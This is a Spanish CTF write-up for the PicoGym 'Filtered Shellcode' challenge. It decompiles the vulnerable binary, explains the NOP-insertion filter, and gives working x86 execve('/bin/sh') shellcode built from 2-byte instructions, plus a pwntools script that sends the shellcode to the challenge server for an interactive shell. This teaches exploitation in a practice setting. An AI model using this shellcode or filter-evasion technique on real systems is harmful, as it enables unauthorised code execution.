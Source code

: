 # Filtered Shellcode - PicoGym

Este ejercicio era más complejo y la resolución es bastante interesante por lo que he decidido dedicarle este writeup. Esta es una versión traducida al español y a mis palabras :) de [este articulo](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md).

## Reconocimiento

Nos dan únicamente un ejecutable *fun*, que si comprobamos con [[checksec]], tiene todas las protecciones desactivadas. Si lo descompilamos con [[ghidra]], veremos que se nos pide un código a ejecutar de un máximo de 1000 caracteres que se pasa a la función *`execute`*:

```c
void execute(int shellcode,int len)

{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Básicamente, el código se copia en *`auStack44`*, pero cada dos bytes introduce otros dos bytes con el valor `0x90` (el código de los *`nop`*). En resumen, corta el código en series de 2 bytes, por lo que tenemos que construir un *shellcode* con instrucciones de 2 bytes.

## Construyendo un shellcode

El objetivo será llamar a `execve("/bin/sh", NULL, NULL)`. Para ello debemos hacer varias cosas:

- Poner la string `/bin/sh` en el stack, para que *esp* apunte a ella.
- Poner los argumentos en los registros correspondientes (en este caso el puntero a `/bin/sh` en *ebx*, y poner *ecx* y *edx* a 0).
- Llamar a la *syscall* correspondiente a `excve`.
- Salir del programa.

Normalmente rellenariamos los registros con `mov ebx, 0`, sin embargo, esto genera *null bytes* al final, lo que puede dar problemas. Para ello utilizaremos `xor ebx, ebx` para ponerlos a cero. Además, para asignar valores, podemos evitar meter *null bytes* rellenando *sub-registros*. Por ejemplo para introducir `11` en *eax* (el código de `excve`), podemos usar `xor eax, eax; mov al, 11`.

De esta forma el código sería algo como:

```asm
; Push //bin/sh on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters
mov ebx, esp
xor ecx, ecx
xor edx, edx

; call execve
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

De esta forma casi todas las instrucciones serían de 2 bytes de longitud, el único problema es introducir `/bin/sh` en el stack. Para ello hay una solución simple, construirlo en registros y pushearlo al stack.

Concretamente, con *eax* inicializado a 0, ponemos en *a1* el primer byte. Después multiplicamos *eax* por 16 y luego otra vez por 16, haciendo que el primer valor esté ahora en el segundo byte de *eax*. Además añadimos *nop*s cuando haya instrucciones de 1 byte para que todas midan 2 bytes.

El código en [[python]] quedaría así:

```python
from pwn import *

shellcode = """
/* Set registers to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* Build the stack with //bin/sh */
mov bl, 16 /* This register will hold the value 16 for shifting bytes */
/* First null bytes */
push ecx
nop
/* Then n/sh (ie bytes 110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* Then //bi (ie bytes 47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit */
mov al,1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

with open("out", "wb") as f:
    f.write(asm(shellcode))

sh = remote("mercury.picoctf.net", 37853)
sh.recvuntil(b"run:")
sh.sendline(asm(shellcode))
sh.interactive()
```
